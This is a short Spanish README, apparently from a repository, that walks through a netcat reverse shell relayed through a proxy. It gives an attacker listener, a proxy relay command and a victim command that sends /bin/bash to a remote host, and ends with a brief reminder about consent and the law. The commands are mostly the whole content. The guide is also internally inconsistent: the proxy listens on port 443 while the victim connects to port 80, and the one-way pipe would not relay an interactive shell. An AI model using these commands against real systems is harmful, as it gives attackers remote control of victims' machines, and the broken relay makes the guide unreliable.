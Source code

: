 # README - Conexión de Shell Inversa a través de Proxy
Este README proporciona una descripción general de la configuración necesaria para establecer una conexión de shell inversa desde una máquina víctima a través de un proxy hacia una máquina atacante.

# Descripción del Escenario
En este escenario, hemos configurado una conexión de shell inversa a través de un proxy utilizando netcat (nc). La configuración implica tres máquinas:

- Máquina Atacante (Attacker): La máquina desde la que se inicia la conexión de shell inversa.
- Proxy: El intermediario que redirige el tráfico entre la máquina víctima y la máquina atacante.
- Máquina Víctima (Victim): La máquina que envía la conexión de shell inversa a través del proxy.

# Configuración

Máquina Atacante (Attacker)
Ejecutar el siguiente comando para escuchar la conexión entrante:

bash
Copy code
nc -lvp 443

# Proxy
Ejecutar el siguiente comando para redirigir el tráfico entrante al puerto 443 de la máquina atacante:

bash
Copy code
nc -lvp 443 | nc [IP de la máquina atacante] 443

# Máquina Víctima (Victim)
Ejecutar el siguiente comando para enviar una shell inversa al proxy en el puerto 80 (simulando una conexión HTTP):

bash
Copy code
nc -e /bin/bash [IP del proxy] 80

# Consideraciones Importantes
Asegúrate de tener los permisos adecuados y el consentimiento del propietario del sistema antes de realizar estas acciones.
Las direcciones IP y los puertos mencionados en este README son ejemplos y deben reemplazarse por las direcciones IP y puertos reales de tu configuración.
Es fundamental respetar las leyes y regulaciones locales relacionadas con la seguridad informática y la privacidad.
